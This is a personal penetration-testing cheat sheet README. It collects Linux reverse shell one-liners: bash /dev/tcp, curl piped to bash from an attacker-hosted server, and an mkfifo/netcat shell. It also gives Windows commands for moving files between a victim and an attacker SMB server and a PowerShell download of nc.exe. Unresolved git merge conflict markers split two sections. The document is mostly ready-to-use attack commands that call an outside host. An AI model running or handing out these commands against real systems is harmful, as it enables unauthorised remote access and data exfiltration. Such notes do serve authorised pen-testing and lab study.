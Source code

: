 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md) <br>
[Windows Privilege Escalation](WindowsPrivEsc/README.md)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```
<<<<<<< HEAD
=======

I used bash to call bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'
```
>>>>>>> fb9c034530cf45b71b232275fcc54369543c65d8

### Windows
Using impacket-smbserver we can copy files to and from the victim machine. Start the impacket-smbserver:
On Kali machine:
```bash
impacket-smbserver leet .
```
To copy files from Kali to Windows:
```cmd
> copy \\<Kali IP>\leet\file.ext file.ext
```

To copy files from Windows to Kali:
```cmd
> copy file.ext \\<Kali IP>\leet\file.ext
```
<<<<<<< HEAD

You can copy files from your Kali VM using powershell one-liner
```cmd
powershell Invoke-WebRequest -uri http://10.10.10.10/nc.exe -outfile C:\write\whever\nc.exe
```
=======
>>>>>>> fb9c034530cf45b71b232275fcc54369543c65d8
